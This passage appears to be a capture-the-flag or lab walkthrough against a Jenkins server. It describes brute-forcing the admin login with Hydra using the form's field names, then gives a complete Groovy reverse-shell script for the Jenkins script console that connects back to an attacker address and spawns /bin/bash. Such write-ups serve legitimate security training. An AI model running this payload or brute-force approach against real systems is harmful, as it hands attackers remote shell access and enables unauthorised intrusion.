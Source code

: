 Interesting, it appears an attempted logon is sending a POST request to `/j_acegi_security_check` and the username and password fields are titled `j_username` and `j_password` respectively. 

We'll need to include that in our Hydra command. 

Nice! We were able to brute force the admin's password:

![hydra.png](../assets/internal_assets/hydra.png)

Once logged in we can navigate to http://172.17.0.2:8080/script/. 

![script_page.png](../assets/internal_assets/script_page.png)

After setting up a netcat listener, inside the script console we can run:

```text
String host="10.6.61.45";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
